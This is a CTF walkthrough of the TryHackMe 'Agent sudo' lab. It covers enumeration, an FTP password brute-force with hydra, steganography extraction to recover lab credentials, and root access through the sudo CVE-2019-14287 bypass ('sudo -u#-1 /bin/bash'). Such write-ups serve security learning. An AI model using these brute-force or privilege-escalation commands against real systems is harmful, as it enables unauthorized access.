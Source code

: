 ```yaml
---
title: "Agent sudo"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


## Enumeration

```bash
PORT      STATE    SERVICE REASON      VERSION
21/tcp    open     ftp     syn-ack     vsftpd 3.0.3
22/tcp    open     ssh     syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
80/tcp    open     http    syn-ack     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Annoucement
18101/tcp filtered unknown no-response
50001/tcp filtered unknown no-response
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

On the website :

```text
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
```

cool we have to change our user-agent

tried codename, sudo, agent R, R...

and R gave us something

```text
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```

Lol so there are 25 employees and you can't be R...ok its a letter of the alphabet...lets FUZZ

A...B..C..is easy its like counting up to 3...sing a single melody...

I giggled on agent P too

only C and R have different content-length..and we cannot be R so...yeah

```text
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

There is always a chris in your team...he always do that

seems like the bruteforce is strong in here

We brutefore the ftp password with hydra

```bash
$hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.185.167 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-04 17:21:40
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.185.167:21/
[21][ftp] host: 10.10.185.167 login: chris password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 9 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-04 17:22:58
```

`chris : crystal`

Next we grab all the stuff

`ftp> mget \*`

we got `To_agentJ.txt`

```text
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

and two images :

{{< post-img src="cutie.png" alt="cutie" style="width:200px" >}}
{{< post-img src="cute-alien.jpg" alt="cute-alien" style="width:200px" >}}

Steganography it is

first are those really pictures?

```bash
$file \*

cute-alien.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, baseline, precision 8, 440x501, components 3
cutie.png: PNG image data, 528 x 528, 8-bit colormap, non-interlaced
```

There is no exif data...lets fire up `steghide`

```bash
steghide --extract -sf cutie.png
Entrez la passphrase:
```

Cutie asks for a passphrase..it may be in cute-alien

```bash
steghide --extract -sf cutie-alien.png
Entrez la passphrase:
```

actually no lets use `binwalk` then

```bash
$binwalk cute-alien.jpg

## DECIMAL HEXADECIMAL DESCRIPTION

0 0x0 JPEG image data, JFIF standard 1.01

┌─[nair0lf32@zer0ne]─[~/Desktop/Stuff/THM/Agent Sudo]
└──╼ $binwalk cutie.png

## DECIMAL HEXADECIMAL DESCRIPTION

0 0x0 PNG image, 528 x 528, 8-bit colormap, non-interlaced
869 0x365 Zlib compressed data, best compression
34562 0x8702 Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820 0x8804 End of Zip archive, footer length: 22
```

Ok cutie.png got a zip archive

we extract it

```bash
$binwalk cutie.png -e

## DECIMAL HEXADECIMAL DESCRIPTION

0 0x0 PNG image, 528 x 528, 8-bit colormap, non-interlaced
869 0x365 Zlib compressed data, best compression
34562 0x8702 Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820 0x8804 End of Zip archive, footer length: 22
```

We get a folder with a password protected zip...well its a bruteforce marathon as it seems

lets use zip2john then john with rockyou and the password is:

`alien (8702.zip/To_agentR.txt)`

Now we unzip the archive and read the text to agent R

```text
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

This team have communication issues (even for secret agents)

`QXJlYTUx` in just base 64 for `Area51`

we use that final password to extract stuff from the second image with steghide

```bash
steghide info cute-alien.jpg
"cute-alien.jpg":
format: jpeg
capacit�: 1,8 KB
Essayer d'obtenir des informations � propos des donn�es incorpor�es ? (o/n) o
Entrez la passphrase:
fichier � inclure "message.txt":
taille: 181,0 Byte
cryptage: rijndael-128, cbc
compression: oui
steghide --extract -sf cute-alien.jpg
Entrez la passphrase:
�criture des donn�es extraites dans "message.txt".
```

we got `message.txt`

We can now ssh with: `james:hackerrules!`

And we get the user flag

`james@agent-sudo:~$ cat user_flag.txt`

in the same folder there is ANOTHER PICTURE dammit! I think we might need that

```bash
$scp james@10.10.252.51:Alien_autospy.jpg /home/nair0lf32
james@10.10.252.51's password:
Alien_autospy.jpg
```

That one alien is not cute at all

{{< post-img src="Alien_autospy.jpg" alt="alien autopsy" style="width:200px" >}}

haha autospy (nice)

A reverse image search of the image reveals the:

`Roswell alien autopsy (de verdade)`

Time to PrivEsc

\*_mission impossible theme starts_

## Privilege Escalation

```bash
sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
(ALL, !root) /bin/bash
```

wait what? lol..lets google that

`CVE-2019-14287`

Read it..understand it...do it

`sudo -u#-1 /bin/bash`

```text
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
super_secret_flag_here

By,
DesKel a.k.a Agent R
```

Cool..there is a bonus for agent R identity..lets GO...
kek I am stupid, its just...`deskel`
That was a fun one
